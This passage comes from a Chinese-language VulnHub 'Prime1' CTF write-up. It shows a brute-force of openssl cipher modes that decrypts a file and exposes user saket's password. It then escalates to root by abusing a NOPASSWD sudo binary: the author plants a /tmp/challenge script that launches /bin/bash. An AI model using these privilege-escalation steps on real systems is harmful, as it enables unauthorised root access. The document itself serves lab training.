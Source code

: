 ```
┌──(kali㉿kali)-[~/…/stageOne/writeup/vulnhub/Prime1]
└─$ for i in $(cat ciphertype);do cat enc.txt | openssl enc -d -a -$i -K 33363661373463623363393539646531376436316462333035393163333964310a 2>&/dev/null;echo $i ;done
blake2b512
blake2s256
md4
md5
rmd160
sha1
sha224
sha256
sha3-224
sha3-256
sha3-384
sha3-512
sha384
sha512
sha512-224
sha512-256
shake128
shake256
sm3
aes-128-cbc
l{���[��7�ƏmfE��K����;0�`Z▒�� :�y��N�.�Fj�|z�x�G���rd��/��
                                                          �:�Z91�yMV���@��S▒u����_j,����^+�FAC��ﴌ6���-��~��I�_���%���C���Դ��:��}T�q�4�同��#��ʛaes-128-ecb
aes-192-cbc
~I�l2UFײ:H3V�>Z����§��N[sgħ��:��-]�����v;ń#�M��|g��
            �|&�As
                  ��    �B0��mĖ�*�0r������{Hw� Ƕ�~�g�X�2▒�'+��+�����[D���5��d����!%o    {aes-192-ecb
aes-256-cbc
Dont worry saket one day we will reach to
our destination very soon. And if you forget 
your username then use your old password
==> "tribute_to_ippsec"

Victor,aes-256-ecb
```
爆破出来了，enc是使用 **aes-256-ecb** 加密出来的，并成功解密了，获得一个密码，是saket用户的。
登录saket用户
```
saket@ubuntu:/$ sudo -l
Matching Defaults entries for saket on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User saket may run the following commands on ubuntu:
    (root) NOPASSWD: /home/victor/undefeated_victor
saket@ubuntu:/$ sudo ./home/victor/undefeated_victor
if you can defeat me then challenge me in front of you
/home/victor/undefeated_victor: 2: /home/victor/undefeated_victor: /tmp/challenge: not found
saket@ubuntu:/$ 
```
报错没找到文件，那就自己写一个。
```
saket@ubuntu:/tmp$ cd /tmp
saket@ubuntu:/tmp$ echo '#!/bin/bash' >challenge
saket@ubuntu:/tmp$ echo '/bin/bash' >>challenge
saket@ubuntu:/tmp$ chmod +x challenge
saket@ubuntu:/tmp$ sudo /home/victor/undefeated_victor
if you can defeat me then challenge me in front of you
root@ubuntu:/tmp# 
```